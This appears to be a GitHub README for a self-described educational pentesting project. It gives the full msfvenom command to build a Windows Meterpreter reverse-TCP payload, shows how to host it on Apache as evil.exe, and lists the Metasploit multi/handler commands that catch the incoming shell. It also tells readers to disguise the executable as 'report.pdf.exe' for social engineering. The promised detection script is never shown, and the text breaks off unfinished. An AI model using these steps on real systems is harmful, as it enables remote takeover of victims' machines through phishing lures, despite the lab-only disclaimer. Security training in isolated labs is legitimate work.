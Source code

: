 # cyber-sentinal
# 🛡️ (based on) ----Reverse Shell Listener & Malicious File Detector – Educational Pentesting Project 

This project demonstrates how to set up a **reverse TCP shell payload** using the Metasploit Framework and how to detect and remove **suspicious or potentially malicious files** using a custom Python script.

> ⚠️ This project is strictly for **educational** and **ethical hacking** purposes in **controlled lab environments only**.

---

## 🔧 Features

- ✅ Generate `windows/meterpreter/reverse_tcp` payloads with `msfvenom`
- ✅ Host payloads on a local Apache2 web server (`/var/www/html`)
- ✅ Configure and run Metasploit `multi/handler` to catch incoming shells
- ✅ Disguise `.exe` payloads as `.pdf` using social engineering tactics
- ✅ Scan for suspicious files and attempt to delete them

---

## 🧠 Educational Objectives

- Learn how reverse shells operate and connect back to a C2 listener
- Understand how payloads can be served and disguised for social engineering
- Gain hands-on experience with Metasploit Framework and msfvenom
- Develop basic detection techniques for suspicious or unauthorized files

---

## 📌 Requirements

- Kali Linux (2023 or newer preferred)
- Metasploit Framework
- Apache2 (for payload hosting) 
- Python3
- Local network or port-forwarding capability

---
NOW LET's START WITH REAL DEAL---------

## 🚀 Getting Started

### 1. Generate Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe -o /var/www/html/evil.exe
```

### 2. Start Metasploit Listener

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
run
```

### 3. Deliver Payload

Host your `.exe` file via your web server or disguise it (e.g., rename to `report.pdf.exe`) and send it to your test victim in a controlled lab environment.

### 4. Detect and Remove Suspicious Files (Python Script)

Example behavior:

- Scans directories for `.exe`, `.bat`, `.vbs`, etc.
- Compares known good and suspicious file patterns
- Deletes files that match suspicious criteria (optional, controlled)

```bash
python3 detect_and_remove.py
```

---

## 🧪 Example Use Cases

- Simulate a phishing attack in a closed lab
- Raise awareness about file-based malware
- Test detection tools
- Practice incident response

---

## 📁 Folder Structure

```
├── detect_and_remove.py
├── payloads/
│   └── evil.exe
└── README.md
```

---

## ⚠️ Disclaimer

This tool is for **educational** and **research** purposes only. Misuse of this tool outside of authorized environments is illegal and unethical. Always get proper consent before running any form of penetration testing or file manipulation.

---

--NOW COMING TO DETECT AND REMOVE IT-----
we are going to use 


## 👨‍💻 Author

Made with 💻 and ⚔️ for learning and awareness in cybersecurity.

by CODE BLOODED
